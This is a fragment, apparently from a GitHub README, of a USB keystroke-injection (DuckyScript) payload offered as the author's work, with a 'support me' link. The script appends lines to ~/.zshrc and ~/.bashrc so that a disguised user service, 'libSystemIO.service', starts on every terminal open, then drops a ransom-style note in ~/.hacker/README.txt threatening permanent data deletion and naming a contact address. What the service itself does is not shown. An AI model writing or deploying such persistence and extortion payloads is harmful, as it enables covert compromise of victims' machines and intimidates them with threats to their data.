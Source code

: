 ```

REM [autostart on opening terminal]
STRING echo systemctl --user enable --now libSystemIO.service >> ~/.zshrc
ENTER
DELAY 50
STRING echo systemctl --user enable --now libSystemIO.service >> ~/.bashrc
ENTER

REM [Message]
REM change message, to acquire ransom
STRING mkdir ~/.hacker/ && touch ~/.hacker/README.txt
ENTER
DELAY 100
echo I'm Hacker Don't try to ShutDown your system this will permanantly delete your data, contact test@test.com for further details... >> ~/.hacker/README.txt
ENTER
DELAY 50
STRING exit
ENTER
```
#### Support me if you like my work:
* https://twitter.com/drapl0n